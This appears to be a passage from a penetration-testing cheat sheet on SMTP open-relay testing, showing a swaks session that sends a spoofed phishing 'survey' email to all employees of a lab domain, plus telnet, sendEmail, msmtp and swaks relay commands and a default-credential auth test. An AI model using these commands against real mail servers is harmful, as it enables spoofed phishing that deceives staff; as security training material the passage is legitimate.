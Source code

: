 ```bash
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Thu, 29 Oct 2020 01:36:06 -0400
 -> To: employees@inlanefreight.com
 -> From: notifications@inlanefreight.com
 -> Subject: Company Notification
 -> Message-Id: <20201029013606.775675@parrot>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/
 -> 
 -> 
 -> .
<-  250 OK
 -> QUIT
<-  221 Bye
=== Connection closed with remote host.
```

### Manual Open Relay Testing
```bash
# Manual telnet test for open mail relay
telnet target_ip 25

# Test commands
HELO attacker.com
MAIL FROM: test@external.com
RCPT TO: victim@external.com
DATA
Subject: Test Relay
This is a test for open relay.
.
QUIT

# Response codes:
# 250 = Command successful (relay allowed)
# 550 = Relay denied
```

### Additional Relay Testing Tools
```bash
# Using sendEmail tool
sendEmail -f sender@external.com -t victim@external.com -s target_ip -m "Test message"

# Using msmtp
echo "Test message" | msmtp --host=target_ip --from=test@external.com victim@external.com

# Swaks with authentication testing
swaks --to test@external.com --from test@domain.com --server target_ip --auth-user admin --auth-password password
```

---